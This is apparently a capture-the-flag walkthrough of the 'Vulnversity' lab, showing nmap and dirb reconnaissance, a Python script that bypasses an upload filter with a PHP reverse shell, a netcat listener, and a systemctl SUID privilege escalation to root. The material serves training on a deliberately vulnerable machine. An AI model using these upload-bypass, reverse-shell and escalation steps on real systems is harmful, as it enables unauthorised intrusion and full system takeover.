

# Vulnversity
  Learn about active recon, web app attacks and privilege escalation.
  


## Nmap scan
Here is the task 2 answers all in this nmap scan. 
```text
# Nmap 7.91 scan initiated Sun May 30 18:01:18 2021 as: nmap -sV -sC -oN nmap/vuln 10.10.205.62
Nmap scan report for 10.10.205.62
Host is up (0.22s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-05-30T08:32:09-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-30T12:32:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 30 18:02:18 2021 -- 1 IP address (1 host up) scanned in 59.24 seconds
```
# Web page
According to the nmap scan we found nice web page in the port 3333


## Task 3 
1.  What is the directory that has an upload form page?
Here I'm using dirb because it's my favourite tool for brute-forcing urls
```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.log
START_TIME: Sun May 30 18:26:08 2021
URL_BASE: http://10.10.205.62:3333/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.205.62:3333/ ----
==> DIRECTORY: http://10.10.205.62:3333/css/
==> DIRECTORY: http://10.10.205.62:3333/fonts/
==> DIRECTORY: http://10.10.205.62:3333/images/
+ http://10.10.205.62:3333/index.html (CODE:200|SIZE:33014)
==> DIRECTORY: http://10.10.205.62:3333/internal/
==> DIRECTORY: http://10.10.205.62:3333/js/
```
You can upload images from /internal/ directory.


## Task 4
1. Try upload a few file types to the server, what common extension seems to be blocked? 
Let's see we can upload some php revshells and get the access to this machine. Seems like we can't upload .php files. 

They said to use burpsuit for fuzz the upload form. But here allow me to show new script I make to fuzz the upload form. This script turn our php file to correct format.
```python
#! /usr/bin/env python3
import requests
import os

ip = "10.10.155.48"
url = f"http://{ip}:3333/internal/index.php"

old_filename = "php-revshell.php"
filename = "php-revshell"
extensions = [".php", ".php3", ".php4", ".php5", ".phtml"]

for ext in extensions:
    new_filename = filename + ext
    os.rename(old_filename, new_filename)

    files = {"file": open(new_filename, "rb")}
    r = requests.post(url, files=files)

    if "Extensions not allowed" in r.text:
        print(f"{ext} not allowed")
    else:
        print(f"{ext} allowed")

    old_filename = new_filename

```

2. Run this attack, what extension is allowed?
If we look at the our result we got hit with .phtml extension.

3. What is the name of the user who manages the web server?
Now we need to get into the machine. Go ahead setup a listener to our port. http://10.10.229.33:3333/internal/uploads/ here we can found our reverse shell.
```bash
┌─[✗]─[visith@parrot]─[~]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.218] from (UNKNOWN) [10.10.229.33] 60408
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:47:05 up 7 min,  0 users,  load average: 0.05, 0.54, 0.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@vulnuniversity:/$
```
If we look into the /etc/passwd list we can see bill and root. So answer is **bill**.

4. What is the user flag?
Its in the bill's home directory. (cd /home/bill && cat user.txt)

## Task 5

1. On the system, search for all SUID files. What file stands out?

find / -perm -4000 2>/dev/null
```bash
www-data@vulnuniversity:/home/bill$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
/bin/systemctl not common. So answer was the **/bin/systemctl**

2. Become root and get the last flag (/root/root.txt)
Now we know systemctl is SUID . Let's see how we can use this to get root. 
Link to source - https://gtfobins.github.io/gtfobins/systemctl/

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
Now we successfully change permission

```bash
www-data@vulnuniversity:/$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
```

I do some changes in the script gives by GTFO bins. Now I can simply type 'bash -p' and get root. It tells we in www-data but in the script we change the group to root . So now we can head over to the cd /root/ and get the flag.

```bash
www-data@vulnuniversity:$ bash -p
bash -p
bash-4.3# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3# cd /root
cd /root
bash-4.3# ls
ls
root.txt
```